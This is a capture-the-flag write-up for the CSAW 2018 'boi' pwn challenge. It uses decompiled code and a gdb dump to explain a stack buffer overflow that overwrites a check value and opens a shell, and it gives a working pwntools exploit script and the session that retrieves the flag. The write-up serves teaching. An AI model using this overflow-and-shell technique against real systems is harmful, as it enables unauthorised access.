 # Csaw 2018 boi pwn 50

Let's take a look at what we have:

```
$	file boi 
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
$	./boi 
Are you a big boiiiii??
000000000000000000000000000000000000000000000000000000000000
Fri Sep 21 02:06:59 EDT 2018
```

So we have a 64 bit elf, that scans in input, then prints the date. When we take a look at the C psuedocode generated by IDA, we see this:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@4
  __int64 v4; // rcx@4
  __int64 buf; // [sp+10h] [bp-30h]@1
  __int64 v6; // [sp+18h] [bp-28h]@1
  __int64 target; // [sp+20h] [bp-20h]@1
  int v8; // [sp+28h] [bp-18h]@1
  __int64 stackCanary; // [sp+38h] [bp-8h]@1

  stackCanary = *MK_FP(__FS__, 40LL);
  buf = 0LL;
  v6 = 0LL;
  target = 0LL;
  v8 = 0;
  HIDWORD(target) = 0xDEADBEEF;
  puts("Are you a big boiiiii??");
  read(0, &buf, 0x18uLL);
  if ( HIDWORD(target) == 0xCAF3BAEE )
    run_cmd("/bin/bash", &buf);
  else
    run_cmd("/bin/date", &buf);
  result = 0;
  v4 = *MK_FP(__FS__, 40LL) ^ stackCanary;
  return result;
}
```

So we can see a couple of things. The first is that there is a buffer overflow bug with the `read` call into `buf`, it is allowing us to scan `0x18` (`24`) bytes of data into a `0x8` byte space (we can tell it is `8` bytes, since the variable below it (`v6`) is at `bp-0x28` and `0x30 - 0x28 = 0x8`).

Furthermore we can see that if `target` is set eqaul to `0xcaf3baee`, it will call `/bin/bash` for us. We can definetly overwrite the value in `target`, since it is only `0x10` (`16`) bytes away from the start of the input. The only thing is since `target` is a `HIDWORD`, we will need to add an additional `4` bytes to our input, before we start overwriting the value we need to. We can see that here in gdb (our input was `15935728` which translates to `0x3832373533393531`):

```
gdb-peda$ x/10g 0x7fffffffdda0
0x7fffffffdda0:	0x3832373533393531	0x000000000000000a
0x7fffffffddb0:	0xdeadbeef00000000	0x0000000000000000
0x7fffffffddc0:	0x00007fffffffdeb0	0xf0577e6ba81af300
0x7fffffffddd0:	0x00000000004006e0	0x00007ffff7a05b97
0x7fffffffdde0:	0x0000000000000000	0x00007fffffffdeb8
```

With that, we have the following exploit:

```
# Import pwntools
from pwn import *

# Establish the target
target = remote('pwn.chal.csaw.io', 9000)
#target = process('./boi')

# Form and send the payload
payload = "0"*0x14 + p64(0xcaf3baee)
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
``` 

And when we run the exploit:

```
$	python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
[*] Switching to interactive mode
 _    ___        ____   ___  _ _ _ _ 
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/                       
***************************************
Are you a big boiiiii??
00000000000000000000����^@^@^@^@
$ ls
ls
art.txt  boi  flag.txt    run.sh
$ w
w
 06:03:15 up 9 days,  9:26,  0 users,  load average: 638.29, 638.38, 638.39
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```

Just like that, we got the flag!